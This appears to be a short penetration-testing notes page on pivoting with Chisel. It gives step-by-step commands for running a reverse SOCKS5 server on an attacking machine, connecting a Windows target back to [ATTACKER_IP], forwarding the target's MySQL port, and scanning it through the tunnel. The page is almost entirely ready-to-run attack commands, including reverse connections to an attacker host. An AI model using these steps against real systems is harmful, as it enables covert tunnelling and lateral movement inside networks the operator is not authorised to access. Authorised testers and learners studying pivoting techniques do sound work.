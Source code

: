 ```yaml
---
description: >-
  Example scenario for pivoting using Chisel. Note, this example assumes that
  the attacking system is Linux and the target system is Windows.
---
```


# Using Chisel to Pivot

### Setting up a SOCKS Proxy with Chisel

1. Download the [latest Chisel binaries](https://github.com/jpillora/chisel)
   * Note, you will need one for your attacking system and one to be uploaded to the target system.
2. On the attacking system: `./chisel server --socks5 --reverse -p 8000`
3. On the target system: `.\chisel.exe client [ATTACKER_IP]:8000 R:socks`
4. Observe on the attacking system that the SOCKS5 connection has been successfully established.

### Forwarding One Port with Chise;

1. On the attacking system: `./chisel server 9000 -reverse`
2. On the target system: `.\chisel client [ATTACKER_IP]:9000 R:3306:127.0.0.1:3306`

### Verification

The easiest way to verify if your `Chisel` connection was successful is to run the following command: `ss -lnpt | grep 3306`

### Interaction

Ensure to remember that you will be interacting with `localhost` after forwarding a port. For example, by running `nmap -sC -sV -p3306 -n localhost`

### References

* [Pivoting with Chisel](https://ap3x.github.io/posts/pivoting-with-chisel/)
